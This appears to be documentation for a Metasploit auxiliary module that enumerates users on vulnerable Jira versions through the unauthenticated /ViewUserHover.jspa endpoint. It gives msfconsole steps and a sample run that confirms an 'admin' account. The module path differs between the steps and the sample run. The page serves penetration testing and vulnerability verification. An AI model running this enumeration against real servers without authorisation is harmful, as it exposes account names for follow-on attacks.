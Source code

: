 ## Description

  This module exploits an information disclosure vulnerability that allows an unauthenticated user to enumerate users in the /ViewUserHover.jspa endpoint.
  This only affects Jira versions < 7.13.16, 8.0.0 ≤ version < 8.5.7, 8.6.0 ≤ version < 8.12.0
  Discovered by Mikhail Klyuchnikov @__mn1__
  https://twitter.com/ptswarm/status/1318914772918767619


## Vulnerable Application

  [Jira](https://www.atlassian.com/software/jira) Jira is team managment software for agile teams.

  This module has been tested successfully on:

   * Jira version 8.4.1 on Ubuntu Linux.
   * Jira version 8.4.1 on Kali Linux.

  Installers:

  * [Jira Installers](https://www.atlassian.com/software/jira/core/updateatlassian-jira-software-8.4.1.tar.gz)
  * [Jira Installers Archive] (https://www.atlassian.com/software/jira/download-archives)


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use auxiliary/scanner/http/jira_user_enum`
  3. Do: `set rhosts [IP]`
  4. Do: `set SSL true`
  5. Do: `set RPORT 443`
  6. Do: `set USERNAME <username to test>
  7. Do: `run`
  8. You should find out if the user exists or not


## Scenarios

  ```
  msf6 > use auxiliary/scanner/http/jira_enum_users 
  msf6 auxiliary(scanner/http/jira_enum_users) > set rhosts 192.168.0.101
  rhosts => 192.168.0.101
  msf6 auxiliary(scanner/http/jira_enum_users) > set USERNAME admin
  msf6 auxiliary(scanner/http/jira_enum_users) > run

  [*] Begin enumerating users at 192.168.0.101/secure/ViewUserHover.jspa?username=
  [*] checking user admin
  [+] 'User exists: admin'
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  msf6 auxiliary(scanner/http/jira_enum_users) > creds
  Credentials
  ===========

  host           origin         service         public   private  realm  private_type  JtR Format
  ----           ------         -------         ------   -------  -----  ------------  ----------
  192.168.0.101  192.168.0.101  443/tcp (jira)  admin                                


  ```
